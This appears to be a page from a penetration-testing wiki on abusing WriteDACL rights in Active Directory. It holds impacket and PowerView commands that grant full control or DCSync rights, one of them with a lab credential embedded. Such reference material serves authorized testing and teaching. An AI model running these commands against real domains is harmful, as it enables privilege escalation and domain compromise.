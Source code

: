 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteDACL

## Information

With `Write` access to the target object’s DACL, you can **grant yourself any privilege you want on the object**.

{% tabs %}
{% tab title="Users" %}
Grant yourself `FullControl` of the user:

{% code overflow="wrap" %}
```bash
# Assigning FullControl permissions over the user with Impacket
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
```
{% endcode %}

```powershell
# Assigning GenericAll permissions over the user with PowerView
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

See [here](fullcontrol.md) for exploitation options.
{% endtab %}

{% tab title="Groups" %}
Grant yourself `FullControl` of the group:

```powershell
# Powerview
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

&#x20;This can be leverage to add members to the group (see [here](genericall.md#over-a-group)).
{% endtab %}

{% tab title="Hosts" %}
Grant yourself `FullControl` of the computer:

```powershell
# Assigning GenericAll permissions over the computer
Add-DomainObjectAcl -TargetIdentity windows01 -Rights All
```

This can be leveraged to [read the LAPS password](readlapspassword.md) or perform [RBCD](../attacks/delegation/resource-based.md) against the target host.
{% endtab %}

{% tab title="Domains" %}
Grant yourself `DCSync` rights:

```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

This can be leveraged to perform a [DCSync attack](dcsync.md).
{% endtab %}

{% tab title="GPOs" %}
Grant yourself `FullControl` of the GPO:

```powershell
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

This can be leveraged to edit the GPO and take over an object the GPO applies to.
{% endtab %}

{% tab title="OUs" %}
Grant yourself `FullControl` of the OU:

```powershell
Add-DomainObjectAcl -TargetIdentity <OU-GUID> -Rights All
```

This can be leveraged to add a new ACE to the OU that inherits down to child objects so we can then take over those child objects.
{% endtab %}
{% endtabs %}
